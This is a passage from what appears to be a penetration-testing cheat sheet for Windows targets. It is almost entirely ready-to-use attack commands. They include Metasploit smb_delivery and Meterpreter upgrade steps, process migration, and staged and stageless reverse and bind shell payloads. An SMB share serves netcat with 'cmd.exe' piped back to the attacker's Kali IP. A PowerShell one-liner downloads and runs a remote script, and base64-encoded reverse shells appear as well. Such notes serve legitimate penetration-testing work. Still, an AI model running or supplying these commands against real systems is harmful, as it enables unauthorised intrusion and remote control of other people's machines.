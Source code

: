 2. Execute from Windows:

   ```cmd
   cscript.exe /nologo wget.js [LILNK] [FILE]
   ```

## Shells

### Meterpreter Upgrade

AUTOMATIC
- `meterup` (w/o pivoting)
- `metash` on http (w pivoting)

MANUAL
1. `msfconsole -q`
2. `use exploit/windows/smb/smb_delivery` 
   - set payload to correct architecture
     - x64: `windows/x64/meterpreter/reverse_tcp`
   - Set `SRVHOST` to tun0
1. RCE Via Generated RunDLL Command
2. `sessions` &rarr; `sessions 1`
#### Process Migration
Migrate to a 64-bit process
	1. List processes: `ps`
	2. Get a `x64` process
	3. `migrate [PID]`

### Metasploit 

- Staged (more stable):   

  `set payload windows/[EMPTY/X64]/shell/[BIND/REVERSE]_tcp`

- Stageless (sthelthier): 

  `set payload windows/[EMPTY/X64]/shell_[BIND/REVERSE]_tcp`

### SMB / WebDAV

- `smbserv()`                                          → Open Anonymous Server
- `cp /usr/share/windows-binaries/nc[32/64].exe .`    → Place NC in SMB Share
- `\\[KALI_IP]\nc64.exe -e cmd.exe [KALI_IP] [PORT]`  → Input NC Shell Payload
- WebDAV Method                                  → `webdavserv()` + `\\[KALI_IP]:8000\DavWWWRoot\`  

### Powershell

- `powershell -c iex(New-Object System.Net.WebClient).DownloadString('http://[SERVER]/[PS1_FILE]');[FUNCTION_CALL]`
- `powershell [-e / /enc] [B64_STRING]`                     → [B64 Reverse Shell](https://www.revshells.com/)
- `echo '[CMD]' | iconv -f ascii -t utf-16le | base64 -w0`  → CMD to PS-B64 Conversion

### Admin Hijacking
